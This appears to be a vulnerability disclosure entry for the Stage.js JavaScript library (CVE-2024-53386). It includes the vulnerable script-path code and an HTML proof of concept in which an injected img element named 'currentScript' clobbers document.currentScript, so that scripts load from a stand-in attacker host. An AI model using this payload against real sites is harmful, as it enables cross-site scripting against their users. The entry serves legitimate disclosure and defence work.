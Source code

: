 ## Stage.js

### Meta

+ Library: Stage.js
+ Stars: 2.4K
+ Version: 0.8.10
+ Fingerprint: `typeof Stage !== 'undefined' && typeof Stage.create === 'function'`
+ Payload: ```<img name="currentScript" src="https://attack.hulk"></img>```
+ Impact: XSS
+ Status: Reported
+ CVE: [CVE-2024-53386](https://nvd.nist.gov/vuln/detail/CVE-2024-53386)
+ Foundby: TheHulk

### Library

https://github.com/piqnt/stage.js

URL:
+ `https://cdn.jsdelivr.net/npm/stage-js@1.0.0-alpha.4/+esm`
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.cordova.js `
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.cordova.min.js `
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.web.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.web.min.js`

### Vulnerable Code Snippet

```javascript
  function getScriptSrc() {
    // HTML5
    if (document.currentScript) {
      return document.currentScript.src;
    }
```

```javascript
  return function(url) {
    if (/^\.\//.test(url)) {
      var src = getScriptSrc();
      var base = src.substring(0, src.lastIndexOf('/') + 1);
      url = base + url.substring(2);
      // } else if (/^\.\.\//.test(url)) {
      // url = base + url;
    }
    return url;
  };
```

## PoC

```html
<!--Library-->
<script src="https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.web.js" integrity="sha512-rA/8kCbIrzxcXW6akXAiN6FnpM+VW2iv9Zzw4ghu5Mt7xDobt3oraMSDxDeqq4kSUkaTBVdNOy1iyEyFhmceCw==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>

<script>
Stage.preload('./a.js')
</script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="http://localhost:9999">
<!--Payload-->
```